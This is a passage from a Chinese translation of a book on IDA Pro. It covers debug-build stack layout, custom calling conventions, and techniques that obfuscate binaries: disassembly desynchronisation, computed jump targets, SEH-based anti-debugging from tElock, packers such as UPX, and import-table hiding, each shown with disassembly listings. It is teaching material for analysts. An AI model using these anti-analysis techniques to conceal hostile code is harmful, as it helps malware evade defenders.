在本例中，该函数使用了四个局部变量，这些变量应该只需要 16 字节的堆栈空间。然而，我们看到这个函数分配了 240 字节的堆栈空间，然后继续将这 240 字节全部填充为值 `0xCC`。从  开始的四个线条相当于以下函数调用：

```
memset(&var_F0, 0xCC, 240);
```

字节值 `0xCC` 对应于 x86 指令集的 `int 3` 指令，这是一个软件中断，会导致程序陷入调试器。在堆栈帧中填充过量的 `0xCC` 值的意图可能是为了确保在程序以某种方式尝试从堆执行指令（一个希望在调试构建中捕获的错误条件）时，会调用调试器。

函数的局部变量从  开始初始化，我们注意到变量并不相邻。中间的空间将由前面的 `memset` 操作填充为 `0xCC` 的值。以这种方式在变量之间提供额外的空间可以使检测一个变量可能溢出到并损坏另一个变量的情况变得更容易。在正常情况下，除了任何声明的变量之外，不应覆盖用作填充的任何 `0xCC` 值。为了比较目的，这里显示了相同代码的发布版本：

```
.text:004018D0                 push    ebp
.text:004018D1                 mov     ebp, esp
.text:004018D3                sub     esp, 10h
.text:004018D6                mov     [ebp+var_4], 0
.text:004018DD                 mov     [ebp+var_C], 1
.text:004018E4                 mov     [ebp+var_8], 2
.text:004018EB                 mov     [ebp+var_10], 3
```

在发布版本中，我们看到只为局部变量请求了所需的空间  ，并且所有四个局部变量都彼此相邻  。此外，请注意，使用 `0xCC` 作为填充值的做法已被消除。

* * *

^([146]) *优化* 通常涉及消除代码中的冗余或选择更快但可能更大的代码序列，以满足开发者创建更快或更小的可执行文件的需求。优化后的代码可能不如非优化代码容易分析，因此可能被认为在程序的开发和调试阶段使用不是一个好的选择。

^([147]) gcc 还提供了在编译过程中插入调试符号的能力。

^([148]) 请参阅 [`msdn.microsoft.com/en-us/library/8wtf2dfz.aspx`](http://msdn.microsoft.com/en-us/library/8wtf2dfz.aspx)。

# 替代调用约定

在第六章中，我们讨论了在 C 和 C++代码中最常用的调用约定。尽管遵循已发布的调用约定在尝试将一个编译模块与另一个模块接口时至关重要，但没有任何规定禁止单个模块内的函数使用自定义调用约定。这在高度优化的函数中很常见，这些函数不是设计为从它们所在的模块外部调用的。

以下代码表示使用非标准调用约定的函数的前四行：

```
.text:000158AC sub_158AC       proc near
  .text:000158AC
 .text:000158AC arg_0           = dword ptr  4
  .text:000158AC
  .text:000158AC                 push    [esp+arg_0]
  .text:000158B0              mov     edx, [eax+118h]
  .text:000158B6                 push    eax
  .text:000158B7              movzx   ecx, cl
  .text:000158BA                 mov     cl, [edx+ecx+0A0h]
```

根据 IDA 的分析，函数的堆栈帧中只有一个参数存在。然而，在仔细检查代码后，你可以看到 EAX 寄存器  和 CL 寄存器  都被使用，而在函数内部没有任何初始化发生。唯一可能的结论是 EAX 和 CL 都预期由调用者初始化。因此，你应该将此函数视为一个三参数函数，而不是一个单参数函数，并且在调用它时必须特别小心，以确保三个参数都处于正确的位置。

IDA 允许您通过设置函数的“类型”来为任何函数指定自定义调用约定。这是通过通过“编辑”▸“函数”▸“设置函数类型”菜单选项输入函数原型并使用 IDA 的 `__usercall` 调用约定来完成的。图 20-1 显示了用于设置前例中 `sub_158AC` 类型的结果对话框。


图 20-1. 将函数指定为 `__usercall`

为了清晰起见，此处再次展示声明：

```
int __usercall sub_158AC<eax>(struc_1 *<eax>, unsigned __int8 index<cl>, int)
```

在这里，IDA 关键字 `__usercall` 被用于替代标准调用约定之一，如 `__cdecl` 或 `__stdcall`。使用 `__usercall` 要求我们通过将寄存器名称附加到函数名称上来告诉 IDA 用于存储函数返回值的寄存器名称（在本例中产生 `sub_158AC<eax>`）。如果函数不返回任何值，则可以省略返回寄存器。在参数列表中，每个基于寄存器的参数也必须通过将相应的寄存器名称附加到参数的数据类型上来进行注释。在设置函数类型之后，IDA 将参数信息传播到调用函数，从而提高了函数调用序列的注释质量，如下所示：

```
.text:00014B9F       lea     eax, [ebp+var_218] ; struc_1 *
.text:00014BA5       mov     cl, 1           ; index
.text:00014BA7       push    edx             ; int
.text:00014BA8        call    sub_158AC
```

在这里很明显，IDA 识别出 EAX 将持有函数的第一个参数 ，CL 将持有第二个参数 ，第三个参数将放置在堆栈上 。

为了证明即使对于单个可执行文件，调用约定也可以有很大的差异，这里从同一个二进制文件中取了一个使用自定义调用约定的第二个示例，并在此展示：

```
.text:0001669E sub_1669E       proc near
  .text:0001669E
 .text:0001669E arg_0           = byte ptr  4
  .text:0001669E
  .text:0001669E              mov     eax, [esi+18h]
  .text:000166A1                 add     eax, 684h
  .text:000166A6                 cmp     [esp+arg_0], 0
```

再次，IDA 表明该函数仅访问堆栈帧中的一个参数 。仔细检查可以清楚地看出，ESI 寄存器  也应该在调用此函数之前初始化。这个例子表明，即使对于相同的二进制文件，用于存储基于寄存器的参数所选择的寄存器也可能因函数而异。

这里要吸取的教训是确保你理解函数中使用的每个寄存器的初始化方式。如果一个函数在初始化寄存器之前就使用了该寄存器，那么该寄存器正在被用来传递参数。请参阅第六章以回顾各种编译器和常见调用约定所使用的寄存器。

# 摘要

编译器特定的行为太多，无法在单章（甚至一本书）中涵盖。在其他行为中，编译器在实现各种高级构造时采用的算法以及它们选择优化生成代码的方式都不同。由于编译器的行为受到构建过程中提供给编译器的选项的强烈影响，因此，一个编译器在接收到相同的源代码但不同的构建选项时可能会生成根本不同的二进制文件。不幸的是，学会应对所有这些变化通常是一个经验问题。进一步复杂化的是，通常很难在特定的汇编语言构造上寻找帮助，因为很难构建出能够产生针对你特定情况的特定结果的搜索表达式。当这种情况发生时，你最好的资源通常是专门针对逆向工程的论坛，你可以在那里发布代码并从有类似经验的其他人的知识中受益。

# 第二十一章。混淆代码分析


即使在理想情况下，理解反汇编列表也是一个困难的任务。高质量的反汇编对于任何想要深入了解二进制内部工作原理的人来说是必不可少的，这正是我们为什么在过去的 20 章中讨论 IDA Pro 及其功能的原因。可以说，IDA 在它所做的事情上非常有效，以至于它降低了进入二进制分析领域的门槛。虽然这当然不能仅归因于 IDA 本身，但近年来二进制逆向工程的状态取得了如此大的进步，这对任何不希望其软件被分析的人来说都是显而易见的。因此，在过去的几年中，逆向工程师和希望保持其代码秘密的程序员之间进行了一场某种形式的军备竞赛。在本章中，我们将探讨 IDA 在这场军备竞赛中的作用，并讨论一些已采取的措施来保护代码，以及如何使用 IDA 来克服这些措施。

不同的词典定义会告诉你，*混淆*是指为了防止他人理解被混淆的项目而使某物变得晦涩、令人困惑、混乱或令人困惑的行为。另一方面，反逆向工程则包含更广泛的技术范围（混淆只是其中之一），旨在阻碍对项目的分析。在本书的上下文中以及使用 IDA 的情况下，可能应用此类反逆向工程技术的项目是二进制可执行文件（例如，与源文件或硅芯片相对）。

为了考虑混淆以及反逆向工程技术在 IDA 使用中的影响，首先对其中一些技术进行分类是有用的，以便了解每种技术可能如何体现。重要的是要注意，没有一种正确的方式来分类每种技术，因为以下的一般类别在描述中经常重叠。此外，新的反逆向工程技术正在不断发展，不可能提供一个单一、全面的列表。

# 静电分析技术

防止静态分析技术的首要目的是防止分析师在不实际运行程序的情况下理解程序的本质。这些正是针对像 IDA 这样的反汇编器的技术类型，因此如果 IDA 是你的二进制逆向工程武器选择，那么这些技术就最为关注。这里讨论了几种类型的防止静态分析技术。

## 拆卸去同步化

设计用来挫败反汇编过程的较老技术之一涉及创造性地使用指令和数据来防止反汇编找到一个或多个指令的正确起始地址。以这种方式迫使反汇编器失去自我跟踪通常会导致反汇编失败，或者至少是错误的反汇编列表。

以下列表显示了 IDA 尝试反汇编 Shiva^([149])反逆向工程工具的一部分：

```
LOAD:0A04B0D1                 call  near ptr loc_A04B0D6+1
  LOAD:0A04B0D6
  LOAD:0A04B0D6 loc_A04B0D6:                      ; CODE XREF: start+11↓p
 LOAD:0A04B0D6                 mov     dword ptr [eax-73h], 0FFEB0A40h
  LOAD:0A04B0D6 start           endp
  LOAD:0A04B0D6
  LOAD:0A04B0DD
  LOAD:0A04B0DD loc_A04B0DD:                      ; CODE XREF: LOAD:0A04B14C↓j
  LOAD:0A04B0DD                 loopne  loc_A04B06F
  LOAD:0A04B0DF                 mov     dword ptr [eax+56h], 5CDAB950h
 LOAD:0A04B0E6                 iret
  LOAD:0A04B0E6 ;---------------------------------------------------------------
 LOAD:0A04B0E7                 db 47h
  LOAD:0A04B0E8                 db 31h, 0FFh, 66h
    LOAD:0A04B0EB ;---------------------------------------------------------------
  LOAD:0A04B0EB
  LOAD:0A04B0EB loc_A04B0EB:                      ; CODE XREF: LOAD:0A04B098↑j
  LOAD:0A04B0EB                 mov     edi, 0C7810D98h
```

此示例执行了一个调用（也可以使用跳转）到现有指令的中间。由于假设函数调用会返回，因此地址`0A04B0D6`处的后续指令被反汇编（错误地）。调用指令的实际目标`loc_A04B0D6+1`(`0A04B0D7`)无法反汇编，因为相关的字节已经被包含在`0A04B0D6`的 5 字节指令中。假设我们注意到这种情况，反汇编的其余部分必须被视为可疑。这一事实的证据以意外的用户空间指令（在这种情况下是一个`iret`^([150]))和杂项数据字节的形式出现。

注意，这种行为不仅限于 IDA。几乎所有反汇编器，无论它们使用递归下降算法还是线性扫描算法，都会成为这种技术的受害者。

在 IDA 中处理这种情况的正确方法是在包含调用目标的字节的指令中取消定义指令，然后在调用目标地址处定义一条指令，以尝试重新同步反汇编。当然，使用交互式反汇编器大大简化了这一过程。使用 IDA，将光标定位在处进行快速编辑▸取消定义（快捷键 U），然后重新定位光标在地址`0A04B0D7`处进行编辑▸代码（快捷键 C），结果如这里所示：

```
LOAD:0A04B0D1                 call    loc_A04B0D7
  LOAD:0A04B0D1 ;------------------------------------------------------------
 LOAD:0A04B0D6                 db 0C7h ; ¦
  LOAD:0A04B0D7 ;------------------------------------------------------------
  LOAD:0A04B0D7
  LOAD:0A04B0D7 loc_A04B0D7:                   ; CODE XREF: start+11↑p
 LOAD:0A04B0D7                 pop     eax
  LOAD:0A04B0D8                 lea     eax, [eax+0Ah]
  LOAD:0A04B0DB
  LOAD:0A04B0DB loc_A04B0DB:                   ; CODE XREF: start:loc_A04B0DB↑j
 LOAD:0A04B0DB                 jmp     short near ptr loc_A04B0DB+1
  LOAD:0A04B0DB start           endp
  LOAD:0A04B0DB
  LOAD:0A04B0DB ;------------------------------------------------------------
  LOAD:0A04B0DD                 db 0E0h ; a
```

到目前为止，这一点更加明显，地址`0A04B0D6`的字节永远不会被执行。地址`0A04B0D7`的指令（调用的目标）用于从栈中清除（虚假调用）的返回地址，然后继续执行。请注意，不久之后，这种技术再次被使用，这次使用的是地址`0A04B0DB`的 2 字节跳转指令，它实际上跳到了自身的中间。在这里，我们又不得不取消定义一条指令，以便到达下一条指令的开始。取消定义（在`0A04B0DB`）和重新定义（在`0A04B0DC`）过程的一次更多应用产生了以下反汇编：

```
 LOAD:0A04B0D7                 pop     eax
 LOAD:0A04B0D8                 lea     eax, [eax+0Ah]
  LOAD:0A04B0D8 ; --------------------------------------------------------------
  LOAD:0A04B0DB                 db 0EBh ; d
  LOAD:0A04B0DC ; --------------------------------------------------------------
 LOAD:0A04B0DC                 jmp     eax
  LOAD:0A04B0DC start           endp
```

跳转指令的目标竟然又是另一个跳转指令 。然而，在这种情况下，由于跳转的目标位于寄存器（EAX）中，并在运行时计算，因此反汇编器（以及可能对人类分析师造成混淆）无法跟踪跳转目标。这是一个另一种反静态分析技术的例子，在 动态计算目标地址 中进行了讨论。在这种情况下，EAX 寄存器中的值并不难确定，因为跳转之前有一个相对简单的指令序列。处的`pop`指令将上一个示例中的调用指令的返回地址（`0A04B0D6`）加载到 EAX 寄存器中，而随后的指令的效果是将 EAX 增加 10。因此，跳转指令的目标是`0A04B0E0`，这是我们必须继续反汇编过程的位置。

从不同的二进制文件中提取的最终不同步示例演示了如何利用处理器标志将条件跳转转换为绝对跳转。以下反汇编示例展示了 x86 `Z`标志的使用目的：

```
 .text:00401000                 xor     eax, eax
 .text:00401002                 jz      short near ptr loc_401009+1
 .text:00401004                 mov     ebx, [eax]
 .text:00401006                 mov     [ecx-4], ebx
  .text:00401009
  .text:00401009 loc_401009:                     ; CODE XREF: .text:00401002↑j
 .text:00401009                 call    near ptr 0ADFEFFC6h
  .text:0040100E                 ficom   word ptr [eax+59h]
```

在这里，`xor`指令用于将 EAX 寄存器清零并设置 x86 `Z`标志。程序员知道`Z`标志被设置，因此使用跳转零（`jz`）指令，这将始终被执行，以达到无条件跳转的效果。因此，跳转和跳转目标之间的指令和将永远不会被执行，并且仅用于混淆未能意识到这一事实的分析员。请注意，再次强调，此示例通过跳入指令的中间部分来隐藏实际的跳转目标。正确反汇编的代码应如下所示：

```
.text:00401000                 xor     eax, eax
  .text:00401002                 jz      short loc_40100A
  .text:00401004                 mov     ebx, [eax]
  .text:00401006                 mov     [ecx-4], ebx
  .text:00401006 ; -------------------------------------------------------------
 .text:00401009                 db 0E8h ; F
  .text:0040100A ; -------------------------------------------------------------
  .text:0040100A
  .text:0040100A loc_40100A:                     ; CODE XREF: .text:00401002↑j
 .text:0040100A                 mov     eax, 0DEADBEEFh
  .text:0040100F                 push    eax
  .text:00401010                 pop     ecx
```

跳转的实际目标  已经被揭示，同样，最初导致不同步的额外字节  也已被发现。当然，在执行条件跳转之前，可以使用更多迂回的方式来设置和测试标志。分析此类代码的难度随着可能影响 CPU 标志位之前操作的数量而增加。

## 动态计算目标地址

不要将本节的标题与反动态分析技术混淆。短语“动态计算”仅仅意味着执行流程将流向的地址是在运行时计算的。在本节中，我们将讨论几种可以派生此类地址的方法。这些技术的目的是为了隐藏（混淆）二进制程序将遵循的实际控制流路径，以避免静态分析过程的窥探。

上一节中展示了这种技术的一个示例。该示例使用`call`语句将返回地址放置在栈上。返回地址被直接从栈中弹出并放入寄存器中，然后向寄存器中添加一个常数，以派生最终的目标地址，最终通过执行跳转到寄存器内容指定的位置来达到该地址。

可以开发出无限数量的类似代码序列，用于派生目标地址并将控制权转移到该地址。以下代码展示了 Shiva 初始启动序列的另一种动态计算目标地址的方法：

```
LOAD:0A04B3BE                 mov     ecx, 7F131760h  ; ecx = 7F131760
  LOAD:0A04B3C3                 xor     edi, edi        ; edi = 00000000
  LOAD:0A04B3C5                 mov     di, 1156h       ; edi = 00001156
  LOAD:0A04B3C9                 add     edi, 133AC000h  ; edi = 133AD156
  LOAD:0A04B3CF                 xor     ecx, edi        ; ecx = 6C29C636
    LOAD:0A04B3D1                 sub     ecx, 622545CEh  ; ecx = 0A048068
  LOAD:0A04B3D7                 mov     edi, ecx        ; edi = 0A048068
  LOAD:0A04B3D9                 pop     eax
  LOAD:0A04B3DA                 pop     esi
  LOAD:0A04B3DB                 pop     ebx
  LOAD:0A04B3DC                 pop     edx
  LOAD:0A04B3DD                 pop     ecx
 LOAD:0A04B3DE                 xchg    edi, [esp]      ; TOS = 0A048068
  LOAD:0A04B3E1                 retn                    ; return to 0A048068
```

右侧边栏中的注释记录了在每条指令下对各种 CPU 寄存器所做的更改。这个过程最终会将一个派生值移动到栈顶位置（`TOS`）![httpatomoreillycomsourcenostarchimages854061.png]，这会导致返回指令将控制权转移到计算出的位置（在本例中为`0A048068`）。这样的代码序列可能会显著增加静态分析期间必须执行的工作量，因为分析师必须手动运行代码以确定程序中实际的控制流路径。

近年来，已经开发并使用了更多复杂类型的控制流隐藏技术。在最复杂的情况下，程序将使用多个线程或子进程来计算控制流信息，并通过某种形式的过程间通信（对于子进程）或同步原语（对于多个线程）接收该信息。在这种情况下，静态分析可能变得极其困难，因为有必要理解多个可执行实体的行为，以及这些实体交换信息的确切方式。例如，一个线程可能在一个共享信号量^([151])对象上等待，而第二个线程计算值或修改代码，一旦第二个线程通过信号量发出完成信号，第一个线程将使用这些值或代码。

另一种技术，常用于面向 Windows 的恶意软件中，涉及配置异常处理程序，^([152]有意引发异常，然后在处理异常时操纵进程寄存器的状态。以下示例被 tElock 反逆向工程工具用于混淆程序的实际控制流：

```
 .shrink:0041D07A        call    $+5
 .shrink:0041D07F        pop     ebp
 .shrink:0041D080        lea     eax, [ebp+46h]  ; eax holds 0041D07F + 46h
  .shrink:0041D081        inc     ebp
 .shrink:0041D083        push    eax
  .shrink:0041D084        xor     eax, eax
 .shrink:0041D086        push    dword ptr fs:[eax]
 .shrink:0041D089        mov     fs:[eax], esp
 .shrink:0041D08C        int     3               ; Trap to Debugger
  .shrink:0041D08D        nop
  .shrink:0041D08E        mov     eax, eax
  .shrink:0041D090        stc
  .shrink:0041D091        nop
  .shrink:0041D092        lea     eax, ds:1234h[ebx*2]
  .shrink:0041D099        clc
  .shrink:0041D09A        nop
  .shrink:0041D09B        shr     ebx, 5
  .shrink:0041D09E        cld
  .shrink:0041D09F        nop
  .shrink:0041D0A0        rol     eax, 7
  .shrink:0041D0A3        nop
  .shrink:0041D0A4        nop
 .shrink:0041D0A5        xor     ebx, ebx
 .shrink:0041D0A7        div     ebx             ; Divide by zero
  .shrink:0041D0A9        pop     dword ptr fs:0
```

序列首先通过调用下一个指令  来开始；调用指令将 `0041D07F` 作为返回地址压入堆栈，然后立即从堆栈弹出并进入 EBP 寄存器 。接下来 ![http://atomoreilly.com/source/no_starch_images/854093.png]，将 EAX 寄存器设置为 EBP 和 `46h` 的和，即 `0041D0C5`，然后将此地址压入堆栈 ![http://atomoreilly.com/source/no_starch_images/854095.png] 作为异常处理函数的地址。异常处理程序的其余设置在  和 ![http://atomoreilly.com/source/no_starch_images/854101.png] 进行，这完成了将新的异常处理程序链接到由 `fs:[0]` 引用的现有异常处理程序链的过程。^([153]) 下一步是故意生成一个异常 ，在这种情况下是一个 `int 3`，这是一个软件陷阱（中断）到调试器。在 x86 程序中，`int 3` 指令被调试器用来实现软件断点。通常在这种情况下，连接的调试器将获得控制权；实际上，如果连接了调试器，它将首先有机会处理异常，认为它是一个断点。在这种情况下，程序完全期望处理异常，因此必须指示任何连接的调试器将异常传递给程序。如果程序无法处理异常，可能会导致操作不正确，甚至可能使程序崩溃。如果不了解如何处理 `int 3` 异常，就无法知道在这个程序中接下来可能发生什么。如果我们假设执行在 `int 3` 后简单地继续，那么似乎指令  和 ![http://atomoreilly.com/source/no_starch_images/854135.png] 最终会触发除以零异常。

与前面代码关联的异常处理程序从地址 `0041D0C5` 开始。此函数的前部分如下所示：

```
.shrink:0041D0C5 sub_41D0C5      proc near     ; DATA XREF: .stack:0012FF9C↑o
  .shrink:0041D0C5
  .shrink:0041D0C5 pEXCEPTION_RECORD  = dword ptr  4
  .shrink:0041D0C5 arg_4               = dword ptr  8
 .shrink:0041D0C5 pCONTEXT            = dword ptr  0Ch
    .shrink:0041D0C5
 .shrink:0041D0C5        mov     eax, [esp+pEXCEPTION_RECORD]
 .shrink:0041D0C9        mov     ecx, [esp+pCONTEXT]  ; Address of SEH CONTEXT
 .shrink:0041D0CD        inc     [ecx+CONTEXT._Eip]   ; Modify saved eip
 .shrink:0041D0D3        mov     eax, [eax]           ; Obtain exception type
 .shrink:0041D0D5        cmp     eax, EXCEPTION_INT_DIVIDE_BY_ZERO
  .shrink:0041D0DA        jnz     short loc_41D100
  .shrink:0041D0DC        inc     [ecx+CONTEXT._Eip]   ; Modify eip again
 .shrink:0041D0E2
        xor     eax, eax             ; Zero x86 debug registers
  .shrink:0041D0E4        and     [ecx+CONTEXT.Dr0], eax
  .shrink:0041D0E7        and     [ecx+CONTEXT.Dr1], eax
  .shrink:0041D0EA        and     [ecx+CONTEXT.Dr2], eax
  .shrink:0041D0ED        and     [ecx+CONTEXT.Dr3], eax
  .shrink:0041D0F0        and     [ecx+CONTEXT.Dr6], 0FFFF0FF0h
  .shrink:0041D0F7        and     [ecx+CONTEXT.Dr7], 0DC00h
  .shrink:0041D0FE        jmp     short locret_41D160
```

异常处理函数的第三个参数  是指向 Windows `CONTEXT` 结构（在 Windows API 头文件 *winnt.h* 中定义）的指针。`CONTEXT` 结构初始化为异常发生时所有 CPU 寄存器的内容。异常处理程序有机会检查，如果需要，修改 `CONTEXT` 结构的内容。如果异常处理程序认为它已经纠正了导致异常的问题，它可以通知操作系统允许有问题的线程继续。此时，操作系统从提供给异常处理程序的 `CONTEXT` 结构中重新加载线程的 CPU 寄存器，线程的执行就像什么都没发生过一样继续。

在前面的例子中，异常处理程序首先访问线程的 `CONTEXT`  以增加指令指针 ，从而跳过产生异常的指令。接下来，检索异常的类型代码（在提供的 `EXCEPTION_RECORD`  中的一个字段）以确定异常的性质。这部分异常处理程序通过将所有 x86 硬件调试寄存器清零  来处理前面例子中生成的除以零错误 。在不检查 tElock 代码其余部分的情况下，不清楚为什么调试寄存器会被清除。在这种情况下，tElock 正在清除之前操作中使用的调试寄存器设置的四个断点以及之前看到的 `int 3`。除了混淆程序的真正流程外，清除或修改 x86 调试寄存器可能会对 OllyDbg 或 IDA 自身内部调试器等软件调试器造成破坏。这类反调试技术将在 反动态分析技术 中讨论。

### 指令码混淆

尽管到目前为止所描述的技术可能——事实上，其目的是——为理解程序的流程提供障碍，但没有任何一种技术能阻止你观察你正在分析程序的正确反汇编形式。去同步对反汇编的影响最大，但通过重新格式化反汇编以反映正确的指令流，它很容易被克服。

防止正确反汇编的一个更有效的方法是在创建可执行文件时对实际指令进行编码或加密。混淆后的指令对 CPU 无用，必须在 CPU 取出执行之前将其解混淆回原始形式。因此，程序中至少有一部分必须保持未加密状态，以便作为启动例程，在混淆程序的情况下，通常负责解混淆程序剩余部分或全部。图 21-1 展示了混淆过程的非常通用的概述。图 21-1。



图 21-1. 通用混淆过程

如所示，该过程的输入是一个用户出于某种原因希望混淆的程序。在许多情况下，输入程序是使用标准编程语言和构建工具（编辑器、编译器等）编写的，对即将到来的混淆几乎没有考虑。生成的可执行文件被输入到混淆工具中，该工具将二进制文件转换为功能等效但已混淆的二进制文件。如图所示，混淆工具负责混淆原始程序的代码和数据部分，并添加额外的代码（解混淆占位符），在原始功能可以在运行时访问之前执行解混淆代码和数据。混淆工具还修改程序头，将程序入口点重定向到解混淆占位符，确保执行从解混淆过程开始。解混淆后，执行通常转移到原始程序的入口点，程序开始执行，就像它从未被混淆过一样。

这个过于简化的过程根据用于创建混淆二进制文件的混淆实用程序而大相径庭。可用的混淆处理工具数量不断增加。这些实用程序提供从压缩到反汇编和反调试技术的各种功能。例如，包括 UPX^([155])（压缩器，也适用于 ELF）、ASPack^([156])（压缩器）、ASProtect（由 ASPack 制造商提供的反逆向工程）和 tElock^([157])（压缩和反逆向工程）用于 Windows PE 文件，以及 Burneye^([158])（加密）和 Shiva^([159])（加密和反调试）用于 Linux ELF 二进制文件。混淆实用程序的能力已经发展到一些反逆向工程工具（如 WinLicense^([160])）在整个构建过程中提供更多集成的程度，允许程序员在从源代码到编译二进制文件的后期处理每个步骤中集成反逆向工程功能。

在混淆程序的世界中，最近的一个演变趋势是将原始的可执行文件包裹在一个虚拟机执行引擎中。根据虚拟化混淆器的复杂程度，原始的机器代码可能永远不会直接执行；相反，该代码由一个面向字节码的虚拟机进行解释。非常复杂的虚拟化器能够在每次运行时生成独特的虚拟机实例，这使得创建一个通用的反混淆算法来击败它们变得困难。VMProtect^([161]) 是一个虚拟化混淆器的例子。VMProtect 被用来混淆 Clampi^([162]) 木马。

就像任何攻击性技术一样，为了对抗许多反逆向工程工具，已经开发出了防御措施。在大多数情况下，这些工具的目标是恢复原始的、未受保护的执行文件（或合理的复制品），然后可以使用更传统的工具（如反汇编器和调试器）进行分析。一个专门设计用来反混淆 Windows 可执行文件的工具叫做 QuickUnpack.^([163])。QuickUnpack，就像许多其他自动化解包器一样，通过充当调试器来工作，允许混淆的二进制文件通过其反混淆阶段执行，并从内存中捕获进程映像。请注意，这类工具实际上在希望拦截程序在解包或反混淆之后、但在它们有机会进行恶意操作之前执行潜在恶意程序。因此，您应该始终在沙盒环境中执行此类程序。

使用纯静态分析环境分析混淆代码是至多具有挑战性的任务。在无法执行解混淆占位符的情况下，在开始解混淆代码的解汇编之前，必须采用某种解包或解密二进制文件混淆部分的方法。图 21-2 显示了使用 UPX 打包的可执行文件的布局。IDA 识别为代码的唯一地址空间部分是  的细条带，这恰好是 UPX 解压缩占位符。


图 21-2. 使用 UPX 打包的二进制文件的 IDA 导航带

检查地址空间的内容将揭示在  的左侧有空白空间，在  和  之间区域有看似随机的数据。这些随机数据是 UPX 压缩过程的结果，解压缩占位符的任务是将这些数据解包到导航带左侧的空白区域，然后在最终将控制权传递给解包的代码之前。请注意，导航带的不寻常外观可能是这种二进制文件被以某种方式混淆的潜在提示。实际上，在用 IDA 查看混淆的二进制文件时，通常会突出显示一些东西。以下是一些表明二进制文件被混淆的潜在提示：

+   导航带中高亮的代码非常少。

+   在函数窗口中列出的函数非常少。通常只会出现 `start` 函数。

+   在导入窗口中列出的导入函数非常少。

+   在字符串窗口（默认情况下未打开）中，可辨认的字符串非常少。通常情况下，只能看到少数导入的库和函数的名称。

+   一个或多个程序部分将是可写和可执行的。

+   使用非标准部分名称，如 `UPX0` 或 `.shrink`。

沙箱环境

反向工程中沙箱环境的目的在于允许你在一种方式下执行程序，这种方式允许观察程序的行为，同时不允许这种行为对你的逆向工程平台的关键组件产生不利影响。沙箱环境通常使用平台虚拟化软件（如 VMware）构建，^([164]) 但它们也可以在执行任何恶意软件后能够恢复到已知良好状态的专用系统上构建。

沙盒系统的常见特征是它们通常被大量仪器化，以便观察和收集在沙盒中运行的程序的行为信息。收集的数据可能包括有关程序文件系统活动、(Windows) 程序注册表活动以及程序生成的任何网络活动信息。

导航带中显示的信息可以与二进制中每个段的属性相关联，以确定每个显示的信息是否一致。此二进制的段列表如下所示：

```
Name   Start    End      R W X D L Align Base Type   Class
 UPX0   00401000 00407000 R W X . L para  0001 public CODE
 UPX1   00407000 00409000 R W X . L para  0002 public CODE
  UPX2   00409000 0040908C R W . . L para  0003 public DATA
  .idata 0040908C 004090C0 R W . . L para  0003 public XTRN
  UPX2   004090C0 0040A000 R W . . L para  0003 public DATA
```

在这种情况下，包含段 `UPX0`  和段 `UPX1`  (`00401000-00409000`) 的整个地址范围被标记为可执行（设置了 `X` 标志）。鉴于这一事实，我们应该期望看到整个导航带被着色以表示代码。我们没有看到这一点，加上检查发现 `UPX0` 的整个范围都是空的，应该被视为高度可疑。在 IDA 中，`UPX0` 的部分标题包含以下行：

```
UPX0:00401000 ;  Section 1\. (virtual address 00001000)
UPX0:00401000 ;  Virtual size                  : 00006000 (  24576.)
UPX0:00401000 ;Section size in file          : 00000000 (      0.)
UPX0:00401000 ;  Offset to raw data for section: 00000200
UPX0:00401000 ;Flags E0000080: Bss Executable Readable Writable
```

在[使用 IDA 在静态环境中执行解压缩操作的技术](https://wiki.example.org/ch21s03.html "使用 IDA 在静态环境中执行解压缩操作的技术")中讨论了使用 IDA 进行二进制静态去混淆的方法([Static De-obfuscation of Binaries Using IDA](https://wiki.example.org/ch21s03.html "Static De-obfuscation of Binaries Using IDA))。

## 导入函数混淆

为了避免泄露关于二进制可能执行的操作的信息，一种额外的反静态分析技术旨在使确定在混淆的二进制中使用的共享库和库函数变得困难。在大多数情况下，可以使 `dumpbin`、`ldd` 和 `objdump` 等工具在列出库依赖关系方面失效。

这种混淆对 IDA 的影响在导入窗口中最为明显。我们之前 tElock 示例的导入窗口的全部内容如下所示：

```
Address   Ordinal   Name                  Library
0041EC2E            GetModuleHandleA      kernel32
0041EC36            MessageBoxA           user32
```

仅引用了两个外部函数，`GetModulehandleA`（来自`kernel32.dll`）和`MessageBoxA`（来自`user32.dll`）。从这个简短的列表中几乎无法推断出程序的行为。那么这样的程序是如何完成任何有用的工作的呢？在这里，技术多种多样，但本质上归结为程序本身必须加载它所依赖的任何附加库，一旦库被加载，程序必须在那些库中定位所需的函数。在大多数情况下，这些任务是由解混淆存根在将控制权传递给解混淆程序之前执行的。最终目标是确保程序的导入表已经正确初始化，就像是由操作系统的自身加载器执行的过程一样。

对于 Windows 可执行文件，一种简单的方法是使用`LoadLibrary`函数通过名称加载所需的库，然后使用`GetProcAddress`函数在每个库中执行函数地址查找。为了使用这些函数，程序必须明确链接到它们或具有查找它们的替代方法。tElock 示例的名称列表不包括这两个函数，而此处显示的 UPX 示例的名称列表包括这两个函数。

```
Address   Ordinal   Name                  Library
0040908C            LoadLibraryA          KERNEL32
00409090            GetProcAddress        KERNEL32
00409094            ExitProcess           KERNEL32
0040909C            RegCloseKey           ADVAPI32
004090A4            atoi                  CRTDLL
004090AC            ExitWindowsEx         USER32
004090B4            InternetOpenA         WININET
004090BC            recv                  wsock32
```

负责重建导入表的实际 UPX 代码显示在示例 21-1 中。

示例 21-1. UPX 中的导入表重建

```
UPX1:0040886C loc_40886C:                       ; CODE XREF: start+12E↓j
  UPX1:0040886C        mov     eax, [edi]
  UPX1:0040886E        or      eax, eax
  UPX1:00408870        jz      short loc_4088AE
  UPX1:00408872        mov     ebx, [edi+4]
  UPX1:00408875        lea     eax, [eax+esi+8000h]
  UPX1:0040887C        add     ebx, esi
  UPX1:0040887E        push    eax
  UPX1:0040887F        add     edi, 8
 UPX1:00408882        call    dword ptr [esi+808Ch] ; LoadLibraryA
  UPX1:00408888        xchg    eax, ebp
  UPX1:00408889
  UPX1:00408889 loc_408889:                       ; CODE XREF: start+146↓j
  UPX1:00408889        mov     al, [edi]
  UPX1:0040888B        inc     edi
  UPX1:0040888C        or      al, al
  UPX1:0040888E        jz      short loc_40886C
  UPX1:00408890        mov     ecx, edi
  UPX1:00408892        push    edi
  UPX1:00408893        dec     eax
  UPX1:00408894        repne scasb
  UPX1:00408896        push    ebp
 UPX1:00408897        call    dword ptr [esi+8090h] ; GetProcAddress
    UPX1:0040889D        or      eax, eax
  UPX1:0040889F        jz      short loc_4088A8
 UPX1:004088A1        mov     [ebx], eax            ; Save to import table
  UPX1:004088A3        add     ebx, 4
  UPX1:004088A6        jmp     short loc_408889
```

